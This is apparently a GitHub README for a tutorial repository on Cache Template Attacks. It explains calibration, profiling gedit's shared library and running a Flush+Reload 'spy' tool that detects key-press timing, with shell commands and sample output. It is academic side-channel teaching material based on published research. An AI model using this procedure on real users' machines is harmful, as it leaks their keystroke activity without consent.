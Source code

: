 # Cache Template Attacks

Cache Template Attacks are a generic attack technique, allowing to profile and **exploit cache-based information leakage of any program automatically**, without prior knowledge of specific software versions or even specific system information.

The "[Cache Template Attacks](https://www.usenix.org/conference/usenixsecurity15/technical-sessions/presentation/gruss)" paper was presented by Gruss, Spreitzer and Mangard (USENIX Security 2015). The underlying cache attack used is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)" (USENIX Security 2014).

This repository is intended to be a **tutorial to perform a side-channel attack on key presses timing in text editors**. The attack is performed in three steps, that can be found in their respective folders.


-----
## One note before starting

The programs should work on x86-64 Intel CPUs, and **the examples of usage have been tested to run for gedit on Ubuntu 18.04**. The Cache Template Attacks technique is independent of the operating system. More OS specific version of the tools, as well as other tools, are provided in the [IAIK repository](https://github.com/IAIK/cache_template_attacks).

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.


-----
## Step #1: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose, in the **calibration folder**:
```
cd calibration
make
./calibration
```
This program should print a histogram for cache hits and cache misses. 

Based on the histogram, your first task is to find a suitable threshold value.

**Note:** In the other two programs a constant ```MIN_CACHE_MISS_CYCLES``` is defined. Change it based on your threshold, if necessary.


-----
## Step #2: Key press profiling
In our example, we monitor well observable events like key presses on a text editor, e.g. gedit. You find the profiling tools in the **profiling folder**.

We first find the address range to attack.
```
$ cat /proc/`ps -A | grep gedit | grep -oE "^[0-9]+"`/maps | grep r-x | grep libgedit
7fe1cabb6000-7fe1cac8f000 r-xp 00000000 fd:01 6423718                    /usr/lib/x86_64-linux-gnu/gedit/libgedit.so
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). 

This line can directly be passed to the profiling tool in this step, where we create a template. This tool requires you to generate the events somehow. We want to profile key presses, so the simplest way to do it is to just **jam a key while the profiling tool is running**, and create a Cache Template showing which addresses react on this key press. 

Run the following commands to find keypress information leakage in gedit (the program should be running and it should have focus as soon as you started the spy script):
```
cd profiling
make
sleep 3; ./profiling 200 7faec85f5000-7faec86cf000 r-xp 20000 fd:01 11930745                   /usr/lib/x86_64-linux-gnu/gedit/libgedit.so # in our example we profile keypresses in gedit
```

You are generally looking for addresses which have high peaks, like the following (done while pressing the key N in gedit):
```
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24640,   6
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24680,  24
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x246c0,  20
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24700,  20
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24740,  48
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24780,  24
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x247c0,  22
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24800,  12
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24840,  14
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24880,  11
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x248c0,   7
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24900,   9
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24940,  10

```
The address 0x24740 had 48 cache hits during a probe duration of 200µs.

**Note down a few suitable addresses** with such high peaks. To filter false positive cache hits we should then perform a second profiling scan without jamming a key.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well. Out of scope of this tutorial, you can use libxdotool for this purpose. 



-----
## Step #3: Key presses

Switch to an already opened gedit window before ./spy is started, and try one of the addresses you noted down in step #2, by running the following lines:
```
cd exploitation
make
sleep 3; ./spy /usr/lib/x86_64-linux-gnu/gedit/libgedit.so <addr>
```

You can then verify that the address indeed has cache hits when pressing a key (and only when pressing a key) by pressing keys in gedit and observing the output of the spy program. You may need to try several addresses to find one that does not give false positives (i.e. cache hits for other events than key presses). 

```
32208296600503: Cache Hit (152 cycles) after a pause of 622379 cycles
32211812588823: Cache Hit (152 cycles) after a pause of 1113837 cycles
32211813157561: Cache Hit (139 cycles) after a pause of 143 cycles
32211813748560: Cache Hit (142 cycles) after a pause of 177 cycles
32211842303343: Cache Hit (97 cycles) after a pause of 9344 cycles
32212655472978: Cache Hit (152 cycles) after a pause of 258912 cycles
32212656169146: Cache Hit (152 cycles) after a pause of 181 cycles
32212656572860: Cache Hit (142 cycles) after a pause of 117 cycles
32213463151480: Cache Hit (142 cycles) after a pause of 255451 cycles
```

You may also observe several cache hits events in a relatively short time frame when pressing one key. You can modify ```spy.c``` to filter out events to obtain a clean trace of single events per key press. 

